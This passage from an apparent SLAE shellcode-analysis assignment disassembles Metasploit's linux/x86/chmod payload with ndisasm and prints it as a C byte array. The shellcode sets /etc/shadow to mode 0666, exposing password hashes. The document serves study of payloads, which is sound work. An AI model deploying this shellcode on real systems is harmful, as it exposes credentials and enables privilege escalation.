     PrependSetuid               false            no        Prepend a stub that executes the setuid(0) system call
    RemoteMeterpreterDebugFile                   no        Redirect Debug Info to a Log File
    VERBOSE                     false            no        Enable detailed status messages
    WORKSPACE                                    no        Specify the workspace for this module

Evasion options for payload/linux/x86/chmod:
=========================

    Name  Current Setting  Required  Description
    ----  ---------------  --------  -----------
{% endhighlight %}

Convert the shellcode to NASM with ndisasm:

{% highlight js %}
kali@kali:~/Desktop/SLAE-Assignments/assignment5/chmod$ msfvenom -p linux/x86/chmod -f raw  | ndisasm -u -
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 36 bytes

00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80C000000        call 0x16
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popa
00000012  646F              fs outsd
00000014  7700              ja 0x16
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
{% endhighlight %}

{% highlight js %}
kali@kali:~/Desktop/SLAE-Assignments/assignment5/chmod$ msfvenom -p linux/x86/chmod -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 36 bytes
Final size of c file: 177 bytes
unsigned char buf[] = 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f"
"\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd"
"\x80\x6a\x01\x58\xcd\x80";
{% endhighlight %}
